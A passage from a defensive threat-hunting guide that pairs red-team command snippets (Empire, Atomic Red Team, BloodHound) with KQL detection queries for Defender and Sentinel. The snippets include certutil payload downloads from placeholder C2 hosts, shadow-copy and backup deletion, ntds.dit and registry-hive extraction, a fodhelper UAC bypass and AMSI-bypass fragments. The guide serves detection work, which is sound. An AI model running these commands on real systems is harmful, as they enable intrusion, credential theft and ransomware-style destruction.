              LogonType, AuthenticationPackageName, IpAddress;

// Interactive logons on source (to establish baseline)
let InteractiveLogons =
    SecurityEvent
    | where TimeGenerated > ago(LookbackWindow)
    | where EventID == 4624
    | where LogonType in (2, 10, 11)  // Interactive, Remote Interactive, Cached
    | extend SourceHost = tolower(Computer),
             LogonAccount = tolower(TargetUserName)
    | summarize InteractiveSessions = count() by SourceHost, LogonAccount;

// Identify network logons where no interactive session exists on source
NetworkLogons
| join kind=leftanti (InteractiveLogons)
    on $left.SourceHost == $right.SourceHost,
       $left.LogonAccount == $right.LogonAccount
| summarize
    LogonCount  = count(),
    Targets     = make_set(TargetHost, 20),
    SourceHosts = make_set(SourceHost, 10),
    FirstSeen   = min(TimeGenerated),
    LastSeen    = max(TimeGenerated)
  by LogonAccount
| where LogonCount >= 2  // Multiple lateral hops
| extend HunterDirective = strcat(
    "HIGH: Probable Pass-the-Hash. Account '", LogonAccount,
    "' performed ", tostring(LogonCount),
    " NTLM network logons from hosts with no interactive session. ",
    "Targets: ", tostring(Targets), ". Sources: ", tostring(SourceHosts), ". ",
    "Pivot: Check source hosts for LSASS access or credential dumping ±2h. ",
    "Force password reset. Investigate each target for further compromise."
)
| project FirstSeen, LogonAccount, LogonCount, Targets, SourceHosts, HunterDirective
| order by LogonCount desc
```

---

### Hunt 08 — Empire Named Pipe C2 Communication

**Why SOCs miss this:** Named pipe C2 is entirely local — no network traffic to inspect.
Empire's `invoke_psexec` and some Beacon configurations communicate via named pipes.
The signal lives in `DeviceEvents` pipe creation events which most SOC teams never query.

**Red Team Perspective (Empire):**
```
Empire named pipe listener:
uselistener http_mapi (or SMB listener)
→ Creates named pipe: \\.\pipe\msagent_<random>
→ Communication via SMB named pipe — zero network C2 traffic
→ Pipe name randomised but follows patterns: msagent_, status_, postex_
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 08: Empire Named Pipe C2 — Pipe Name Pattern Matching
// Minimum Truth: Named pipe creation matching known C2 framework patterns

let LookbackWindow = 14d;
let SuspiciousPipePatterns = dynamic([
    "msagent_","status_","postex_","mojo.","chrome.pipe",
    "PSHost","\\\\pipe\\\\mojo","spoolss","lsarpc","samr",
    "\\pipe\\wkssvc","cachedpipe","\\\\pipe\\\\ShimViewer"
]);

// MDE named pipe events
DeviceEvents
| where Timestamp > ago(LookbackWindow)
| where ActionType in ("NamedPipeEvent","PipeCreated","PipeConnected")
| extend PipeName = tostring(AdditionalFields.PipeName)
| where PipeName has_any (SuspiciousPipePatterns)
    or (PipeName matches regex @"\\\\pipe\\\\[a-z0-9]{8,16}$"  // Random pipe names
        and not(PipeName has_any ("lsarpc","samr","netlogon","svcctl","atsvc")))
| extend IsFromLOLBin = toint(InitiatingProcessFileName in~
    ("powershell.exe","pwsh.exe","cmd.exe","rundll32.exe",
     "regsvr32.exe","mshta.exe","wscript.exe","cscript.exe"))
| extend RiskScore = 40
    + iif(PipeName matches regex @"(msagent_|status_|postex_)", 40, 0)
    + iif(IsFromLOLBin == 1, 20, 0)
| extend Severity = case(RiskScore >= 80, "CRITICAL", RiskScore >= 60, "HIGH", "MEDIUM")
| extend HunterDirective = strcat(
    Severity, ": Suspicious named pipe: '", PipeName, "'. ",
    "Process: ", InitiatingProcessFileName, ". ",
    iif(PipeName matches regex @"(msagent_|status_|postex_)",
        "MATCHES EMPIRE/COBALT STRIKE PIPE PATTERN. ", ""),
    "Pivot: Check for SMB lateral movement using this pipe name across fleet. ",
    "Check parent process ancestry for stager execution."
)
| project Timestamp, DeviceName, PipeName, InitiatingProcessFileName,
          RiskScore, Severity, HunterDirective
| order by RiskScore desc, Timestamp desc
```

---

### Hunt 09 — Token Impersonation / SeDebugPrivilege Abuse

**Why SOCs miss this:** Token impersonation is used by Empire, Cobalt Strike, and Meterpreter
to escalate from user to SYSTEM without a traditional privilege escalation exploit. The
observable is a process accessing the token of a higher-privileged process — visible in
`DeviceEvents` OpenProcessApiCall against SYSTEM processes.

**Red Team Perspective (Empire + Atomic Red Team):**
```
Empire token impersonation:
usemodule management/tokens
execute
→ Calls OpenProcessToken on winlogon.exe / lsass.exe
→ DuplicateToken → ImpersonateLoggedOnUser
→ Effective SYSTEM context without process elevation

Atomic Red Team T1134.001:
Invoke-AtomicTest T1134.001
→ OpenProcess(PROCESS_QUERY_INFORMATION) against privileged process
→ OpenProcessToken → DuplicateToken → SetThreadToken
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 09: Token Impersonation — Privileged Process Access
// Minimum Truth: Non-system process opening SYSTEM processes for token access

let LookbackWindow = 14d;
let SystemProcesses = dynamic([
    "lsass.exe","winlogon.exe","csrss.exe",
    "services.exe","wininit.exe","smss.exe"
]);

DeviceEvents
| where Timestamp > ago(LookbackWindow)
| where ActionType == "OpenProcessApiCall"
| where FileName in~ (SystemProcesses)
| where InitiatingProcessFileName !in~
    (SystemProcesses +
     dynamic(["MsMpEng.exe","SenseIR.exe","csrss.exe","wininit.exe",
              "services.exe","lsm.exe","svchost.exe","taskhostw.exe"]))
| where not(InitiatingProcessFileName endswith ".exe"
    and InitiatingProcessFolderPath has @"C:\Windows\System32")
| extend IsAttackTool = toint(InitiatingProcessFileName in~
    ("powershell.exe","pwsh.exe","cmd.exe","mshta.exe","rundll32.exe"))
| extend HunterDirective = strcat(
    "HIGH: Process '", InitiatingProcessFileName,
    "' opened '", FileName, "' — potential token impersonation. ",
    "Account: ", InitiatingProcessAccountName, ". ",
    "Pivot: Check for subsequent SYSTEM-context process creation from same PID. ",
    "Check for lateral movement events following this timestamp."
)
| project Timestamp, DeviceName, InitiatingProcessFileName,
          InitiatingProcessAccountName, FileName, IsAttackTool,
          InitiatingProcessCommandLine, HunterDirective
| order by Timestamp desc
```

---

### Hunt 10 — Ransomware Precursor — Shadow Copy Deletion

**Why SOCs miss this:** `vssadmin delete shadows /all /quiet` is run seconds before
encryption begins. By the time an analyst investigates, the encryption is complete.
This hunt catches the precursor in the window between shadow deletion and encryption start.

**Red Team Perspective:**
```
Standard ransomware deployment (LockBit, BlackCat, Akira):
cmd.exe /c vssadmin delete shadows /all /quiet
cmd.exe /c bcdedit /set {default} recoveryenabled No
cmd.exe /c wbadmin delete catalog -quiet
→ All executed within 30 seconds of each other
→ Encryption begins after all three complete
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 10: Ransomware Precursor — Shadow Copy + Recovery Deletion
// Minimum Truth: vssadmin delete + bcdedit recovery disable in short window
// CRITICAL: If this fires, encryption may be imminent or already running

let LookbackWindow = 7d;
let PrecursorWindow = 5m;

let ShadowDeletes =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where (FileName =~ "vssadmin.exe"
             and ProcessCommandLine has_any ("delete","resize")
             and ProcessCommandLine has "shadows")
        or (FileName =~ "wmic.exe"
            and ProcessCommandLine has_any ("shadowcopy","delete"))
    | project DeviceId, ShadowTime=Timestamp, ShadowCmd=ProcessCommandLine;

let RecoveryDisable =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "bcdedit.exe"
    | where ProcessCommandLine has_any ("recoveryenabled","safeboot","bootstatuspolicy")
    | where ProcessCommandLine has_any ("No","ignore","disable")
    | project DeviceId, RecoveryTime=Timestamp, RecoveryCmd=ProcessCommandLine;

let BackupDelete =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "wbadmin.exe"
    | where ProcessCommandLine has "delete"
    | project DeviceId, BackupTime=Timestamp, BackupCmd=ProcessCommandLine;

ShadowDeletes
| join kind=inner (RecoveryDisable) on DeviceId
| where RecoveryTime between (ShadowTime .. ShadowTime + PrecursorWindow)
| join kind=leftouter (BackupDelete) on DeviceId
| extend AllThreePresent = isnotempty(BackupCmd)
| extend RiskScore = 80
    + iif(AllThreePresent, 20, 0)
| extend HunterDirective = strcat(
    "🚨 CRITICAL: RANSOMWARE PRECURSOR CONFIRMED. ",
    "Shadow copies deleted + recovery disabled",
    iif(AllThreePresent, " + backup catalog deleted", ""), ". ",
    "IMMEDIATE ISOLATION. Encryption may be in progress. ",
    "Check: DeviceFileEvents for mass .encrypted/.locked extension changes. ",
    "Incident P1. War room now."
)
| project ShadowTime, DeviceId, ShadowCmd, RecoveryCmd, BackupCmd,
          RiskScore, HunterDirective
| order by ShadowTime desc
```

---

### Hunt 11 — AMSI Bypass via Reflection

**Why SOCs miss this:** The most common AMSI bypass patches `AmsiScanBuffer` in memory
using .NET reflection. No file is written. The command line may be fully encoded.
The observable is the PowerShell execution containing the bypass string — often split
across multiple commands or delivered via IEX to avoid inline detection.

**Red Team Perspective (Empire + Atomic Red Team):**
```
Empire AMSI bypass (built-in):
bypass amsi
→ Automatically prepended to all agent comms
→ Typical pattern: [Runtime.InteropServices.Marshal]::Copy(...)
→ Or: $a=[Ref].Assembly.GetTypes();Foreach($b in $a){...}

Atomic Red Team T1562.001 Test 4:
Invoke-AtomicTest T1562.001 -TestNumbers 4
→ $a=[Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
→ [Runtime.InteropServices.Marshal]::Copy($buf,$a)
→ $c="Ams"+"iS"+"canB"+"uffer"  ← string concatenation bypass
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 11: AMSI Bypass — Reflection and Memory Patching
// Minimum Truth: AmsiScanBuffer reference OR Marshal memory operations in PS context
// Catches split-string and concatenated bypass attempts

DeviceEvents
| where Timestamp > ago(14d)
| where ActionType == "PowerShellCommand"
| extend ScriptBlock = tostring(AdditionalFields.ScriptBlockText)
| where ScriptBlock has_any (
    "AmsiScanBuffer","amsiScanBuffer","AmsiInitialize",
    "amsiContext","amsiSession",
    "AllocHGlobal","WriteInt32","GetDelegateForFunctionPointer"
)
    or (ScriptBlock has_any ("Ams","Scan","Buffer","amsi")
        and ScriptBlock has_any ("Marshal","Copy","WriteInt","GetMethod","Invoke"))
    or ScriptBlock matches regex @"(?i)\[ref\]\.assembly\.gettypes\(\)"
    or ScriptBlock matches regex @"(?i)system\.runtime\.interopservices\.marshal"
| extend HasStringConcat = toint(ScriptBlock matches regex @'"Am"[\s]*\+[\s]*"si"')
| extend HunterDirective = strcat(
    "HIGH: AMSI bypass attempt detected in PowerShell script block. ",
    iif(HasStringConcat == 1, "String concatenation bypass technique used. ", ""),
    "Account: ", InitiatingProcessAccountName, ". ",
    "Pivot: Check for encoded commands or download cradles in same session. ",
    "Check for C2 callback following this event."
)
| project Timestamp, DeviceName, InitiatingProcessAccountName,
          ScriptBlock, HasStringConcat, HunterDirective
| order by Timestamp desc
```

---

### Hunt 12 — Lateral Movement via WinRM

**Why SOCs miss this:** WinRM lateral movement produces `wsmprovhost.exe` spawning child
processes on the target. Many rules look for inbound RDP or SMB but miss WinRM entirely.
The minimum truth is `wsmprovhost.exe` spawning a command interpreter or LOLBin.

**Red Team Perspective (Empire):**
```
Empire WinRM lateral movement:
usemodule lateral_movement/invoke_psremoting
set ComputerName TARGET
execute
→ Connects via WS-Management (Port 5985/5986)
→ wsmprovhost.exe spawns on target
→ wsmprovhost.exe → powershell.exe (new agent)
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 12: WinRM Lateral Movement — wsmprovhost Child Spawn
// Minimum Truth: wsmprovhost.exe spawning command interpreter or LOLBin

DeviceProcessEvents
| where Timestamp > ago(14d)
| where InitiatingProcessFileName =~ "wsmprovhost.exe"
| where FileName in~ ("powershell.exe","pwsh.exe","cmd.exe","mshta.exe",
                       "wscript.exe","cscript.exe","rundll32.exe","regsvr32.exe",
                       "certutil.exe","bitsadmin.exe","net.exe","whoami.exe")
| extend IsReconCmd = toint(FileName in~ ("whoami.exe","ipconfig.exe","net.exe",
                                           "hostname.exe","systeminfo.exe"))
| extend RiskScore = 60
    + iif(IsReconCmd == 1, 20, 0)
    + iif(ProcessCommandLine has_any ("-enc","-EncodedCommand","IEX","DownloadString"), 30, 0)
| extend HunterDirective = strcat(
    "HIGH: WinRM lateral movement confirmed. wsmprovhost.exe spawned: ",
    FileName, " on ", DeviceName, ". ",
    "Account: ", AccountName, ". ",
    "This host received a WinRM connection and executed: ", ProcessCommandLine, ". ",
    "Pivot: Identify source host (DeviceLogonEvents Type 3 from this host ±2min). ",
    "Scope: Check for persistence creation following this event."
)
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine,
          RiskScore, HunterDirective
| order by RiskScore desc, Timestamp desc
```

---

### Hunt 13 — Scheduled Task Silent Persistence via COM API

**Why SOCs miss this:** Already covered in depth in the Scheduled Task Ecosystem document.
The hunt query here focuses on the long-term retrospective sweep — looking for TaskCache
registry artefacts that were created silently in the past 30 days.

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 13: Silent Scheduled Task — TaskCache Retrospective Sweep
// Minimum Truth: TaskCache registry write from non-system process in last 30 days
// Retrospective hunt — finds what production rules may have missed

let LookbackWindow = 30d;
let TrustedPublishers = dynamic(["Microsoft Corporation","Microsoft Windows",
                                  "Google LLC","Mozilla Corporation"]);

DeviceRegistryEvents
| where Timestamp > ago(LookbackWindow)
| where RegistryKey has_any (
    @"schedule\taskcache\tree",
    @"schedule\taskcache\tasks"
)
| where ActionType == "RegistryValueSet"
| where InitiatingProcessFileName !in~
    ("taskhost.exe","taskhostw.exe","svchost.exe","TrustedInstaller.exe",
     "msiexec.exe","tiworker.exe")
| extend WriterCompany = tostring(InitiatingProcessVersionInfoCompanyName)
| where not(WriterCompany in (TrustedPublishers))
| extend HasDangerContent = toint(RegistryValueData has_any
    ("powershell","cmd.exe","mshta","rundll32","regsvr32","certutil",
     "-enc","-EncodedCommand","http://","https://"))
| extend HasBase64 = toint(RegistryValueData matches regex @"[A-Za-z0-9+/]{40,}={0,2}")
| extend RiskScore = 50
    + iif(HasDangerContent == 1, 30, 0)
    + iif(HasBase64 == 1, 20, 0)
| where RiskScore >= 50
| extend HunterDirective = strcat(
    "MEDIUM-HIGH: Retrospective TaskCache write from untrusted process. ",
    "Writer: ", InitiatingProcessFileName, " (", WriterCompany, "). ",
    "Key: ", RegistryKey, ". ",
    iif(HasBase64 == 1, "BASE64 CONTENT IN TASK DEFINITION. Decode and investigate. ", ""),
    iif(HasDangerContent == 1, "DANGEROUS EXECUTION PRIMITIVE IN TASK. ", ""),
    "Pull full task definition via Registry. Verify legitimacy."
)
| project Timestamp, DeviceName, InitiatingProcessFileName, WriterCompany,
          RegistryKey, RegistryValueData, RiskScore, HunterDirective
| order by RiskScore desc, Timestamp desc
```

---

### Hunt 14 — DCOM Lateral Movement

**Why SOCs miss this:** DCOM lateral movement produces child processes under `DllHost.exe`
or `mmc.exe` on the target. It is rarely monitored and leaves almost no artifact beyond
the process tree. Empire and Impacket both support DCOM execution.

**Red Team Perspective (Empire + Atomic Red Team):**
```
Empire DCOM execution:
usemodule lateral_movement/invoke_dcom
set ObjectName MMC20.Application
set ComputerName TARGET
execute
→ Uses DCOM MMC20.Application to execute command
→ DllHost.exe or mmc.exe spawns child on target

Atomic Red Team T1021.003:
Invoke-AtomicTest T1021.003
→ [System.Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application","TARGET"))
→ .Document.ActiveView.ExecuteShellCommand("cmd.exe",...)
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 14: DCOM Lateral Movement — DllHost / MMC Anomalous Children

DeviceProcessEvents
| where Timestamp > ago(14d)
| where InitiatingProcessFileName in~
    ("DllHost.exe","mmc.exe","ShellBrowserWindow","explorer.exe")
| where FileName in~
    ("powershell.exe","pwsh.exe","cmd.exe","mshta.exe","wscript.exe",
     "cscript.exe","rundll32.exe","regsvr32.exe","net.exe","whoami.exe")
| where not(InitiatingProcessFolderPath has @"C:\Windows\System32")
    or ProcessCommandLine has_any ("-enc","IEX","DownloadString","http://","https://")
| extend IsLikelyDCOM = toint(InitiatingProcessFileName in~
    ("DllHost.exe","mmc.exe"))
| extend RiskScore = 55
    + iif(IsLikelyDCOM == 1, 20, 0)
    + iif(ProcessCommandLine has_any ("-enc","IEX","DownloadString"), 25, 0)
| extend HunterDirective = strcat(
    "HIGH: DCOM lateral movement pattern. ",
    InitiatingProcessFileName, " spawned ", FileName, " on ", DeviceName, ". ",
    "Account: ", AccountName, ". Command: ", ProcessCommandLine, ". ",
    "Pivot: Identify source host (4648 explicit credential logon ±2min). ",
    "This technique bypasses most lateral movement detections anchored on SMB/WinRM."
)
| project Timestamp, DeviceName, AccountName, InitiatingProcessFileName,
          FileName, ProcessCommandLine, RiskScore, HunterDirective
| order by RiskScore desc, Timestamp desc
```

---

### Hunt 15 — Empire HTTP Stager via certutil / bitsadmin

**Why SOCs miss this:** `certutil.exe -urlcache -split -f` is one of the most commonly
abused LOLBins for payload download. It leaves no PowerShell trace. The HTTP request comes
from a signed Windows binary. Most proxy logs do not alert on `certutil.exe` as a user agent.

**Red Team (Empire + Atomic Red Team):**
```
Empire certutil download:
shell certutil.exe -urlcache -split -f http://TEAMSERVER/file.txt file.txt

Atomic Red Team T1105 Test 7:
Invoke-AtomicTest T1105 -TestNumbers 7
→ certutil.exe -verifyctl -split -f -urlfetch http://C2/payload.b64
→ certutil.exe -decode payload.b64 payload.exe
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 15: LOLBin Download — certutil / bitsadmin Remote Fetch
// Minimum Truth: certutil/bitsadmin with URL argument = file download

let LookbackWindow = 14d;

let CertutilDownloads =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "certutil.exe"
    | where ProcessCommandLine has_any
        ("-urlcache","-verifyctl","-urlfetch","-f ")
    | where ProcessCommandLine has_any ("http://","https://","ftp://","\\\\")
    | extend Method = "certutil"
    | project Timestamp, DeviceId, DeviceName, AccountName,
              ProcessCommandLine, Method,
              ParentProc = InitiatingProcessFileName;

let BitsadminDownloads =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "bitsadmin.exe"
    | where ProcessCommandLine has_any ("/transfer","/download","/addfile")
    | where ProcessCommandLine has_any ("http://","https://","ftp://")
    | extend Method = "bitsadmin"
    | project Timestamp, DeviceId, DeviceName, AccountName,
              ProcessCommandLine, Method,
              ParentProc = InitiatingProcessFileName;

union CertutilDownloads, BitsadminDownloads
| extend DownloadURL = extract(@"(https?://[^\s""']+)", 1, ProcessCommandLine)
| extend OutputFile = extract(@"(?:[\s]|split[\s]|[\s]-f[\s])(\S+\.\w+)$",
    1, ProcessCommandLine)
| extend HunterDirective = strcat(
    "HIGH: LOLBin download via ", Method, ". ",
    "URL: ", DownloadURL, ". ",
    iif(isnotempty(OutputFile), strcat("Output: ", OutputFile, ". "), ""),
    "Account: ", AccountName, ". Parent: ", ParentProc, ". ",
    "Pivot: Check DeviceFileEvents for output file ±5min. ",
    "Check for execution of downloaded file ±10min. ",
    "Inspect parent process for encoded commands or phishing context."
)
| project Timestamp, DeviceName, AccountName, Method, DownloadURL,
          OutputFile, ProcessCommandLine, HunterDirective
| order by Timestamp desc
```

---

### Hunt 16 — Process Hollowing / Injection via CreateRemoteThread

**Why SOCs miss this:** Process injection leaves no command-line artifact. The observable
is a remote thread being created in a target process by an unrelated initiating process.
This is in `DeviceEvents` under `CreateRemoteThreadApiCall` — rarely queried.

**Red Team (Empire):**
```
Empire process injection:
usemodule management/psinject
set ProcId TARGET_PID
execute
→ OpenProcess → VirtualAllocEx → WriteProcessMemory → CreateRemoteThread
→ Agent runs inside target process (e.g. notepad.exe)
→ No new process created — invisible in process tree
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 16: Process Injection — CreateRemoteThread from Suspicious Source
// Minimum Truth: Remote thread creation from untrusted process into legitimate process

let LookbackWindow = 14d;
let LegitTargets = dynamic([
    "svchost.exe","explorer.exe","notepad.exe","calc.exe",
    "RuntimeBroker.exe","SearchHost.exe","spoolsv.exe"
]);
let SuspiciousSources = dynamic([
    "powershell.exe","pwsh.exe","cmd.exe","mshta.exe",
    "wscript.exe","cscript.exe","rundll32.exe","regsvr32.exe"
]);

DeviceEvents
| where Timestamp > ago(LookbackWindow)
| where ActionType == "CreateRemoteThreadApiCall"
| extend TargetProcess = tostring(AdditionalFields.TargetProcessName)
| extend TargetPid = tostring(AdditionalFields.TargetProcessId)
| where TargetProcess in~ (LegitTargets)
    or InitiatingProcessFileName in~ (SuspiciousSources)
| where not(InitiatingProcessFileName =~ TargetProcess)  // Not self-injection
| extend RiskScore = 60
    + iif(InitiatingProcessFileName in~ (SuspiciousSources), 25, 0)
    + iif(TargetProcess in~ (LegitTargets), 15, 0)
| extend HunterDirective = strcat(
    "HIGH: Remote thread injection. Source: ", InitiatingProcessFileName,
    " → Target: ", TargetProcess, " (PID: ", TargetPid, "). ",
    "Account: ", InitiatingProcessAccountName, ". ",
    "Pivot: Check if target process started making unusual network connections after this event. ",
    "Dump target process memory if EDR supports it. ",
    "Check InitiatingProcess parent ancestry for stager execution."
)
| project Timestamp, DeviceName, InitiatingProcessFileName,
          TargetProcess, TargetPid, RiskScore, HunterDirective
| order by RiskScore desc, Timestamp desc
```

---

### Hunt 17 — UAC Bypass via Fodhelper / EventVwr

**Why SOCs miss this:** UAC bypass techniques spawn a high-integrity process without a
UAC prompt by abusing auto-elevating Windows binaries. The observable is a known
auto-elevating binary being spawned with an anomalous parent or registry modification
preceding it.

**Red Team (Empire + Atomic Red Team):**
```
Empire UAC bypass:
usemodule privesc/bypassuac_fodhelper
execute
→ Sets HKCU\Software\Classes\ms-settings\Shell\Open\command
→ Launches fodhelper.exe
→ fodhelper.exe reads registry → spawns HIGH integrity cmd.exe

Atomic Red Team T1548.002 Test 1:
Invoke-AtomicTest T1548.002 -TestNumbers 1
→ reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
→ Start-Process fodhelper.exe
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 17: UAC Bypass — fodhelper / eventvwr Registry Hijack
// Minimum Truth: Known auto-elevate binary spawned after suspicious registry write

let LookbackWindow = 14d;
let UACBinaries = dynamic([
    "fodhelper.exe","eventvwr.exe","computerdefaults.exe",
    "sdclt.exe","slui.exe","wsreset.exe"
]);
let UACRegistryKeys = dynamic([
    @"Software\Classes\ms-settings\Shell\Open\command",
    @"Software\Classes\mscfile\Shell\Open\command",
    @"Software\Classes\.log\Shell\Open\command"
]);

// Registry modification preceding UAC bypass
let RegMods =
    DeviceRegistryEvents
    | where Timestamp > ago(LookbackWindow)
    | where RegistryKey has_any (UACRegistryKeys)
    | where ActionType == "RegistryValueSet"
    | project DeviceId, RegModTime=Timestamp,
              RegKey=RegistryKey, RegValue=RegistryValueData,
              RegWriter=InitiatingProcessFileName;

// Auto-elevating binary execution
let UACExec =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName in~ (UACBinaries)
    | project DeviceId, UACTime=Timestamp, UACBinary=FileName,
              UACParent=InitiatingProcessFileName, AccountName;

RegMods
| join kind=inner (UACExec) on DeviceId
| where UACTime between (RegModTime .. RegModTime + 2m)
| extend HunterDirective = strcat(
    "CRITICAL: UAC bypass chain confirmed. ",
    "Registry modified: ", RegKey, " → ", RegValue, " by ", RegWriter, ". ",
    "Auto-elevating binary launched: ", UACBinary, " (parent: ", UACParent, "). ",
    "Account: ", AccountName, ". ",
    "Result: HIGH integrity process likely spawned. ",
    "Pivot: Check for SYSTEM-level persistence creation after this timestamp."
)
| project RegModTime, UACTime, DeviceId, RegKey, RegValue, UACBinary, HunterDirective
| order by RegModTime desc
```

---

### Hunt 18 — Credential Access via NTDS.dit VSS Extraction

**Why SOCs miss this:** Extracting NTDS.dit via Volume Shadow Copy leaves no direct
credential access event. The observable is VSS snapshot access followed by file copy
of ntds.dit and SYSTEM registry hive — a sequence that produces domain credential access.

**Red Team (Empire + Atomic Red Team):**
```
Empire NTDS extraction:
usemodule credentials/mimikatz/dcsync (preferred)
OR:
shell vssadmin create shadow /for=C:
shell cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\

Atomic Red Team T1003.003:
Invoke-AtomicTest T1003.003
→ vssadmin create shadow /for=C:
→ copy shadow\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
→ reg save HKLM\SYSTEM C:\Temp\SYSTEM (needed to decrypt ntds.dit)
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 18: NTDS.dit VSS Extraction — Domain Credential Harvest
// Minimum Truth: ntds.dit file access from non-system process

let LookbackWindow = 30d;

// Direct ntds.dit access
let NTDSAccess =
    DeviceFileEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "ntds.dit"
        or (FolderPath has "NTDS" and FileName =~ "ntds.dit")
        or FolderPath has @"HarddiskVolumeShadowCopy"
    | where InitiatingProcessFileName !in~
        ("ntdsa.dll","lsass.exe","svchost.exe","TrustedInstaller.exe")
    | extend Method = "DirectNTDS"
    | project Timestamp, DeviceId, DeviceName, Method,
              FileName, FolderPath, InitiatingProcessFileName,
              InitiatingProcessCommandLine;

// VSS shadow creation (precursor)
let VSSCreate =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "vssadmin.exe"
    | where ProcessCommandLine has_any ("create shadow","CreateShadow")
    | extend Method = "VSSCreate"
    | project Timestamp, DeviceId, DeviceName, Method,
              FileName, ProcessCommandLine as InitiatingProcessCommandLine,
              InitiatingProcessFileName;

// SYSTEM registry hive save (required with ntds.dit for decryption)
let SYSTEMSave =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "reg.exe"
    | where ProcessCommandLine has "save"
    | where ProcessCommandLine has_any ("HKLM\\SYSTEM","HKLM\\SAM","HKLM\\SECURITY")
    | extend Method = "RegistryHiveSave"
    | project Timestamp, DeviceId, DeviceName, Method,
              FileName, ProcessCommandLine as InitiatingProcessCommandLine,
              InitiatingProcessFileName;

union NTDSAccess, VSSCreate, SYSTEMSave
| summarize
    Methods = make_set(Method, 10),
    Events  = count(),
    First   = min(Timestamp),
    Last    = max(Timestamp)
  by DeviceId, DeviceName
| extend IsFullChain = array_length(Methods) >= 2
| extend HunterDirective = strcat(
    iif(IsFullChain, "CRITICAL", "HIGH"),
    ": NTDS credential extraction chain. Methods observed: ", tostring(Methods), ". ",
    iif(IsFullChain,
        "FULL EXTRACTION CHAIN PRESENT — domain credentials likely compromised. ",
        "Partial chain — investigate for completion. "),
    "Pivot: Check for outbound data transfer ±30min. ",
    "Immediate DC investigation required. Assume all domain credentials compromised."
)
| project First, DeviceName, Methods, Events, IsFullChain, HunterDirective
| order by IsFullChain desc, First desc
```

---

### Hunt 19 — Reconnaissance via LDAP / AD Enumeration

**Why SOCs miss this:** Empire, BloodHound, and PowerView use LDAP queries to enumerate
AD objects. These appear as `IdentityQueryEvents` in Sentinel — a table that most hunt
programmes never touch. The signal is a single non-DC account performing hundreds of
LDAP queries in a short time window.

**Red Team (Empire + BloodHound):**
```
Empire AD enumeration:
usemodule situational_awareness/network/powerview/get_domain_user
usemodule situational_awareness/network/powerview/get_domain_computer
→ Hundreds of LDAP queries in seconds

BloodHound SharpHound:
.\SharpHound.exe -c All
→ Systematic LDAP enumeration of all AD objects
→ EventID 4662 + IdentityQueryEvents explosion
```

**Blue Team — Hunt Query (Sentinel):**
```kql
// HUNT 19: LDAP / AD Reconnaissance Enumeration Burst
// Minimum Truth: Single account performing anomalous LDAP query volume

IdentityQueryEvents
| where Timestamp > ago(14d)
| where Protocol == "Ldap"
| where not(AccountObjectId == "" or AccountUpn == "")
| summarize
    QueryCount   = count(),
    QueryTypes   = make_set(QueryType, 20),
    Targets      = make_set(DestinationDeviceName, 10),
    FirstQuery   = min(Timestamp),
    LastQuery    = max(Timestamp),
    DurationMins = datetime_diff("minute", max(Timestamp), min(Timestamp))
  by AccountUpn, AccountObjectId, DeviceName
| where QueryCount >= 100
| extend QueriesPerMin = iif(DurationMins > 0,
    toreal(QueryCount) / toreal(DurationMins), toreal(QueryCount))
| extend IsBloodHoundPattern = toint(
    QueryCount >= 500 and DurationMins <= 10
)
| extend RiskScore = 40
    + iif(QueryCount >= 500, 30, 0)
    + iif(IsBloodHoundPattern == 1, 25, 0)
    + iif(QueriesPerMin >= 50, 20, 0)
| extend HunterDirective = strcat(
    case(RiskScore >= 90, "CRITICAL", riskScore >= 70, "HIGH", "MEDIUM"),
    ": AD enumeration burst. Account: ", AccountUpn,
    " performed ", tostring(QueryCount), " LDAP queries in ",
    tostring(DurationMins), " minutes (", tostring(round(QueriesPerMin, 1)), "/min). ",
    iif(IsBloodHoundPattern == 1, "BLOODHOUND PATTERN CONFIRMED. ", ""),
    "Query types: ", tostring(QueryTypes), ". ",
    "Pivot: Check source host for BloodHound/SharpHound binary. ",
    "Investigate preceding execution chain. Assume AD structure is compromised."
)
| project FirstQuery, AccountUpn, DeviceName, QueryCount, QueriesPerMin,
          IsBloodHoundPattern, RiskScore, HunterDirective
| order by RiskScore desc, QueryCount desc
```

---

### Hunt 20 — Data Staging Before Exfiltration

**Why SOCs miss this:** Attackers stage data in unusual locations before exfiltration —
compressing files into archives in `%TEMP%` or creating large files in `%PUBLIC%`.
The observable is rapid file creation with archive extensions from administrative tools,
particularly in the hours before any network anomaly.

**Red Team (Empire):**
```
Empire exfiltration preparation:
shell compress-archive -Path C:\Users\* -DestinationPath C:\Windows\Temp\backup.zip
shell 7za.exe a -r C:\Temp\data.7z C:\Users\Administrator\Documents\*
→ Creates large archive in writable path
→ Archive subsequently exfiltrated via C2 or cloud service
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 20: Data Staging — Archive Creation from Admin Context in Writable Paths
// Minimum Truth: Large archive created in writable path from admin/privileged account

let LookbackWindow = 14d;
let WritablePaths = dynamic([
